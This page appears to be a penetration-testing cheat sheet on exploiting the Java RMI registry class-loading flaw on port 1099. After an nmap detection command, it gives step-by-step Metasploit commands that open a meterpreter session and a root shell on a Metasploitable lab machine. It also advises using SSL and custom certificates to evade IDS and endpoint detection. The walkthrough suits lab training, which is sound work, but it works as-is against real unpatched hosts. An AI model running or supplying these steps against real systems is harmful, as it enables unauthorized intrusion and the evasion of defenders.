



Java RMI registry (service: GNU Classpath grmiregistry port:1099)
Some services offer a
way to invoke Java methods remotely, also known as
Java
RMI.
VulnerabilityExists a vulnerability in default configurations of RMI
Registry and RMI Activation Services, that affects what is known as the “
RMI Distributed Garbage
Collector".
It essentially
allows the loading of arbitrary Java classes from an attacker-defined URL.
0. Identify
The Java RMI
Registry service is typically found on port 1099 TCP, on Linux systems is identified by the “GNU Classpath
grmiregistry”
1. Test
nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p <PORT> <IP>
3. Exploit
root@kali:/# msfconsole
msf> use exploit/multi/misc/java_rmi_server
msf> show options
msf> set rhost <targetIp>
msf> set rport 1099 #DEFAULT: most of the time OK, this is the default port where run java-rmi
msf> set srvhost 0.0.0.0 #DEFAULT: most of the time OK, listen on any network interface
msf> set srvport 8080 #DEFAULT: most of the time OK, unless you’re already running a service on TCP 8080
For additional
IDS or Endpoint Detection evasion (if
required for your specific target), you may also want to set
SSL option to true
This can help in
evading (some) on-the-wire heuristics detection solutions. However, most will flag many Metasploit modules’ default
SSL certificates.
Hence the
SSLCert option which allows you to specify your own custom SSL
certificate for the SRVHOST
msf> exploit -j
msf> sessions
msf> sessions -i 1
meterpreter> shell
id
uname -a
python -c 'import pty; pty.spawn("/bin/sh")'
sh# bash
root@metasploitable:/#
Bibliography:
• Vulnerable machine:
https://sourceforge.net/projects/metasploitable/files/latest/download